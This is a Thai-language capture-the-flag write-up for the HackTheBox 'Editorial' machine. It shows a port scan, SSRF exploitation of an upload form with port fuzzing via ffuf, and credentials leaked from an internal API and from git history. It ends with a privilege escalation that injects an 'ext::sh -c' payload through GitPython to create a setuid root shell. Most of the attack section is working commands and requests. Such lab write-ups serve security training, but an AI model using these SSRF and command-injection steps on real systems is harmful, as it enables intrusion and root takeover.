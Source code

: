 
## Host Scan

```bash
./scan.sh 10.10.11.20                                
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 09:06 +07
Nmap scan report for 10.10.11.20
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds

```



![](./IMG/001.png)

```bash
nc -lvnp 80
```

หากสำรวจเว็บจะพบว่ามีหน้า Publish with us ที่สามารถใส่ URL และสามารถ Upload ไฟล์ได้ ซึ่งหากลองทดอสอบใส่ข้อมูลตามภาพแล้วกด Preview จะพบว่ามี Connection ตอบกลับมาที่ nc ที่ได้ตั้งไว้ 
![](./IMG/002.png)

![](./IMG/003.png)

จากนั้นไปดูข้อมูลของ Request และเปลี่ยนข้อมูลเป็น 127.0.0.1 พบว่ามีการใช้งาน API  หลังบ้าน 
![](./IMG/004.png)


หากทดสอบ upload ข้อมูลผ่านช่อง url โดยเปิดให้สามารถ download ได้จะพบว่าสามารถ Upload ไปที่ API ปลายทางได้ 

![](./IMG/005.png)

จากข้อมูลดังกล่าวเป็นการโจมตีรูปแบบ SSRF ซึ่งเราจำเป็นต้องหาให้ได้ว่า Port ใดที่มีช่องโหว่ โดยเราสามารถนำ Request มาแก้ไขดังต่อไปนี้ 

```http
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------1612695082257348977393033666
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------1612695082257348977393033666--

```

## SSRF API Fuzzing 
จากนั้น save ข้อมูลดังกล่าวเป็นไฟล์ ssrf.request เพื่อนำไป Fuzzzing สำหรับหา Port ที่มีช่องโหว่ 

```bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac -c 
```

![](./IMG/006.png)

จากตัวอย่างจะเห็นได้ว่า Port 5000 มีช่องโหว่ ซึ่งหากเราทดสอบ Request ด้วย http://127.0.0.1:5000 และนำข้อมูลที่ตอบกลับไปรันด้วยคำสั่ง crul จะพบการตอบกลับมาดังต่ไปนี้ 

![](./IMG/007.png)

เราสามารถตรวจสอบโดยการนำข้อมูลไปใส่ในช่อง URL: http://127.0.0.1:5000 จะได้ข้อมูล API มาด้านล่าง

![](./IMG/008.png)

หากทดสอบโดยใช้ URL ที่ได้จากก่อนหน้า เช่น http://127.0.0.1:5000/api/latest/metadata/messages/authors  เราก็จะได้ข้อมูลกลับมาตามภาพด้านล่าง 

![](./IMG/009.png)

ซึ่งจากข้อมูลนี้ทำให้เราได้ User และ password ดังนี้ 

## Cred.txt leak 

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.


dev:dev080217_devAPI!@
```


## PWN to SSH 

จากนั้นนำข้อมูลที่ได้ไปทดสอบเข้าด้วย SSH 
![](./IMG/010.png)

เมื่อเข้ามาจะพบกับ Folder App ที่มีไฟล์ .GIT

```
git log 
```

จากตัวอย่างจะเห็นได้ว่ามีข้อความเกี่ยวกับการ Downgrade ของระบบอยู่ 

![](./IMG/011.png)

ให้ทำการเปรียบเทียบ version ของทั้ง 2 Commit 

```
git diff b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae 1e84a036b2f33c59e2390730699a488c65643d28
```

![](./IMG/012.png)

จากข้อมูลจะเห็นได้ว่า มีข้อมูลของ Credential หลุดไป 

```
nUsername: prod
Password: 080217_Producti0n_2023!@
```

![](./IMG/013.png)

จากนั้น sudo -l จะพบว่ามีไฟล์ /opt/internal_apps/clone_changes/clone_prod_change.py 

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:~$ 

```

![](./IMG/014.png)


https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

จากข้อมูลช่องโหว่ จะพบว่าเราสาารถแทรก Payload ได้ 

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

จากนั้นให้ทดสอบแทรก Payload ดังกล่าวเพิ่มเติม 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned' 
```


![](./IMG/015.png)

จากตัวอย่างจะเห็นว่าเราสามารถใช้คำสั่ง touch สำหรับสร้างไฟล์ pwned บน /tmp ได้ 

## Privilege Escalation 

ต่อไปเราจะทำการสร้าง shell เพิ่อยกระดับสิทธิเป็น root โดยให้เราใร้าง Payload สำหรับรัน /bin/sh ในสิทธิ  root


```bash
echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' 

echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' > /dev/shm/ice.sh 

chmod +x /dev/shm/ice.sh

### RUN PAYLOAD 
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /dev/shm/ice.sh'

/tmp/ice -p 

```

# PWNED 